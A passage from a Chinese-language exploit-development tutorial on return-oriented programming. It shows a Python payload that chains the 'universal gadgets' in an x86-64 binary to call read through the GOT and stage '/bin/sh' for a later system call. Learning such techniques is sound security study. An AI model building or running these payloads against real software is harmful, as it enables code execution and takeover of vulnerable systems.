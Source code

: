![Alt](img/ROP技术57.png)

得到system的地址，为了使用万能的gadgets，我们再次调用read函数读取`bin/sh\x00`,而不是直接使用偏移读取libc中的`bin/sh`。
下面通过gadget1和gadget2布置好栈：

```python
  payload = "A"*72
  payload += p64(universal_gadget2)
  # pop rbx
  # pop rbp
  # pop r12
  # pop r13
  # pop r14
  # pop r15
  # retn
  payload += p64(0)               #rbx = 0
  payload += p64(1)               #rbp = 1
  payload += p64(read_got)        #r12 = got表中read函数项，里面是read函数的真正地址，直接通过call调用
  payload += p64(8)               #r13 = 8，read函数读取的字节数
  payload += p64(binsh_addr)      #r14 = read函数读取/bin/sh保存的地址
  payload += p64(0)               #r15 = 0，read函数的参数fd
  payload += p64(universal_gadget1)
  # mov rdx, r13
  # mov rsi, r14
  # mov edi, r15d
  # call qword ptr [r12+rbx*8]
```
